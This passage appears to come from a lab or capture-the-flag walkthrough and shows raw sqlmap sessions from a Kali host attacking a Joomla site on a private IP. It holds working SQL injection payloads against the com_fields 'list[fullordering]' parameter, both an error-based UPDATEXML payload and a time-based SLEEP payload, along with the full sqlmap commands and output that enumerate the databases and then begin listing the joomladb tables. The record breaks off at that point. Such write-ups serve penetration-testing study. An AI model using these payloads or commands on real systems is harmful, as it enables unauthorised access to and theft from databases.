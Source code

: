 ```jsx
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5736 FROM (SELECT(SLEEP(5)))epcn)
---
[02:04:26] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[02:04:26] [INFO] fetching database names
[02:04:26] [INFO] resumed: 'information_schema'
[02:04:26] [INFO] resumed: 'joomladb'
[02:04:26] [INFO] resumed: 'mysql'
[02:04:26] [INFO] resumed: 'performance_schema'
[02:04:26] [INFO] resumed: 'sys'
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys

[02:04:26] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[02:04:26] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.122.186'
[02:04:26] [WARNING] you haven't updated sqlmap for more than 362 days!!!

[*] ending @ 02:04:26 /2021-05-29/

root@kali:~# **sqlmap -u "http://192.168.122.186/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=update.xml"-p list[fullordering] -D joomladb --tables --batch**
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.6#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:17:20 /2021-05-29/

[02:17:21] [INFO] resuming back-end DBMS 'mysql' 
[02:17:21] [INFO] testing connection to the target URL
[02:17:21] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('460ada11b31d3c5e5ca6e58fd5d3de27=2bq6b9npdoa...srp7nc9g05'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(5655,CONCAT(0x2e,0x7171716a71,(SELECT (ELT(5655=5655,1))),0x71627a7a71),1990))

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 5736 FROM (SELECT(SLEEP(5)))epcn)
---
[02:17:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.1
[02:17:21] [INFO] fetching tables for database: 'joomladb'
Database: joomladb
```